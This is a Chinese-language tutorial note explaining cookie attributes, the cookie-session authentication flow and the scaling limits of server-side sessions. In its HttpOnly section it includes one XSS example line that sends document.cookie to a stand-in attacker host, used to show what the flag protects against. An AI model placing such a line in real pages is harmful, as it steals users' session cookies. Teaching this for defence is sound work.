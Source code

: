 <!--
 * @Author: hucheng
 * @Date: 2019-09-07 18:57:19
 * @Description: here is des
 -->
# cookie,session 认证

## what is cookie
网上已经说烂了，还不知道可以看MDN https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## 概要
 - cookie 组成
 - cookie 产生整个交互过程
 - cookie seesion 存在的问题
 - demo
 

## cookie 组成

虽然cookie 属性说烂了，列还是得列一下，主要关注 **Domain , HttpOnly , SameSite**

![cooki_names.png-45.1kB][1]

- **Name, Value**
 Name 和 Value 是必须的 Session 里的 SessionId 就是 Name 设置的

- **Domain** 

    默认是当前域名 假设 访问的是`a.hucheng.com`,那么前端cookie的domain只能设置`a.hucheng.com`和其父域名`hucheng.com`，如果设置成同级域名如`b.hucheng.com`或者子域名`a.aa.hucheng.com` 那么cookie设置将无效。
    
    当 cookie 设置 父域名hucheng.com的时候 ,2个子域名(`a.hucheng.com,b.hucheng.com`)就可以获取到cookie的信息,通过cookie来传递信息
    
    ```
     在 a.hucheng.com 下面 login 方法执行
      router.post('/login', async (req, res, next) => {
      res.cookie("user_token", req.body.userName,{domain:"hucheng.com"});
      res.send({code:1})
    });
    a.hucheng.com 控制台执行
    window.open("b.hucheng.com");
    可以发现 b.hucheng.com 域名下 cookie 里有 user_token 这个值
    
    ```
划重点 **Domain 的这种属性 可以用来 子域名之间的通信**，大部分二级域名之间跳转都是使用这个属性
- **Path**   
 设置路径cookie 生效路径  
- **Max-Age // 过期时间** 
  默认是毫秒,超过这个时间，浏览器自动删除，其实还有个Expires,Expires 是 Http1.0的，基本废弃了
- **Size**    // 只读大小
- **HttpOnly**  
  httpOnly,设置了这个就不能通过js 里的 document.cookie 获取了，默认是false,这个特性，也用的很多，一般我们敏感的信息都设成tre，比方 seesionId，token，非敏感设置成 false，比方记录来源，
```javascript
 httpOnly ==false;
 const cookie = document.cookie // "user_token=xxx"
 httpOnly ==true;
 const cookie = document.cookie // ""
 // 设置成 true 的时候 就可以防止部分Xss攻击
  new Image().src == "fuckxss.com?a="+document.cookie
```
- **SameSite**
  这个是 Chrome 提出来的 跨域共享 cookie

- **Secure**   
  只有在 https里使用,传输过程会加密


## cookie 产生整个交互过程

![cooki_flow.png-32.9kB][2]

1. 使用浏览器访问服务端页面；
2. 服务端收到该客户端第一次请求后，会创建一个 session ，生产一个唯一 sessionId ；
3. 同时在响应请求中设置 cookie ，属性名为jessionid；
4. 客户端收到后会保存 jessionid ，再次请求时，会在 header 中设置，服务端可从请求头中获取；
5. 服务端验证获取的 sessionId 是否存在，即可验证是否是同一用户；

当浏览器禁用 cookie 后，基于 cookie 的 session 将不能正常工作，每次都将创建一个新的 session ，可通过url重写传递 sessionid。

## cookie seesion 存在的问题
在网民不多，喷子还很少的年代，cookie seesion 是够用的，但是负载大了以后，比方微博这种，一个系统保存上亿的 seessionId，也是够够的，那是不是可以搞个负载均衡 ，把 sessionId 都存到 Redis 缓存，所有的机器都来访问这个地方的数据， 这样一来，就不用复制了， 但是增加了单点失败的可能性， 要是那个负责 session 的机器挂了，  所有人都得重新登录一遍， 估计得被人骂死。

![image.png-62.9kB][3]


怎么办？ 有没有啥办法，我不存这些用户 sessionId,让浏览器自己管理起来么，**JWT 小老弟**，要出场了,下回讲JWT

## Demo
[放到github上了,有cookie 每个属性操作例子](https://github.com/hucheng91/frontend-note/tree/master/oauth/cookie)
Node.js写的，有清晰的注释，没写过Node.js的前端er也能看明白的，如果你平常对 cookie 的的理解都来源于文章，没实操过，建议把 Demo 自己来一遍
## 参考资料
[cookie MDN介绍](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
[JAVA 版 单点登录与权限管理本质：session和cookie介绍](https://mp.weixin.qq.com/s?__biz=MzA5Njc2OTg4NQ==&mid=2247483703&idx=1&sn=fd9984e2e7c6aee7429f261697dfacbd&chksm=90aa4305a7ddca13fcc28fd6266b0e19ad1961a79387b89f213f5b6f93beef5ad06a2cc8916e&scene=21#wechat_redirect)
[干掉状态：从session到token](https://mp.weixin.qq.com/s?src=11&timestamp=1543738567&ver=1279&signature=pXd5T17vZ04cw*hTuAivx5485tGsOorFtTiVYYrBDWKkaeYep1zWFRTHO0qn5N3bVZUnr71XCkam4be2kIKbGO3IxhxDYgnEZ7eJ*AYpdQmIi98AeyK-mhoMlmQeYDvm&new=1)




  [1]: http://static.zybuluo.com/hucheng91/7jinfnjao8k2y6alnmja5t7l/cooki_names.png
  [2]: http://static.zybuluo.com/hucheng91/nd91yozvmocnvwi4xyr6lkyg/cooki_flow.png
  [3]: http://static.zybuluo.com/hucheng91/w3yksf74zpya2i2pfsw7ljlx/image.png